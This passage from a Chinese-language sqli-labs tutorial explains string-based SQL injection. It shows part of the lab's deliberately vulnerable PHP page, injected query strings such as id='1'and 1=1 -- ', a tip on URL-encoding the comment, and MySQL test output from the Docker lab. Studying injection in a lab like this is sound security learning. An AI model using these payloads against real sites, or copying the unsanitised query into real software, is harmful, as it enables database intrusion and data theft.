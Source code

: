 ```php

";
	      echo "</font>";
	    }
		else 
		{
          // 失败，关闭错误回显
  		  echo '<font size="5" color="#FFFF00">';
  		  //echo 'You are in...........';
  		  //print_r(mysql_error());
  		  //echo "You have an error in your SQL syntax";
  		  echo "</br></font>";	
  		  echo '<font color= "#0000ff" font size= 3>';	
		
		}
	}
		else { echo "Please input the ID as parameter with numeric value";}
?>
```

重点就在这句 SQL 语句上：

```sql
SELECT * FROM users WHERE id='$id' LIMIT 0,1
```

注意这里有单引号，所以是字符型注入，我们将前面的测试语句代入：

```sql
SELECT * FROM users WHERE id='1'and 1=1' LIMIT 0,1
```

此处单引号未得到闭合，导致了语法错误，这正是前面测试方法失败的原因。我们可以考虑用--注释掉。**在 URL 请求里要注意在后面加 +，+ 在 URL 中相当于空格，加了 + 才能有效注释**。最后我们得到构造语句：

```sql
SELECT * FROM users WHERE id='1'and 1=1 -- ' LIMIT 0,1
```

为了方便验证 SQL 语句，推荐你直接进入 Docker 容器的 MySQL 进行测试：

```shell
$ sudo docker ps
CONTAINER ID        IMAGE                COMMAND             CREATED             STATUS              PORTS                          NAMES
ea6ec615a39e        acgpiano/sqli-labs   "/run.sh"           29 hours ago        Up 29 hours         0.0.0.0:80->80/tcp, 3306/tcp   sqli-labs
$ sudo docker exec -it ea6ec615a39e /bin/bash
$ root@ea6ec615a39e:/# mysql -u root
mysql> use security;
mysql> SELECT * FROM users WHERE id='1' LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> SELECT * FROM users WHERE id='1 and 1=1' LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set, 1 warning (0.00 sec)

mysql> SELECT * FROM users WHERE id='1 and 1=2' LIMIT 0,1;
+----+----------+----------+
```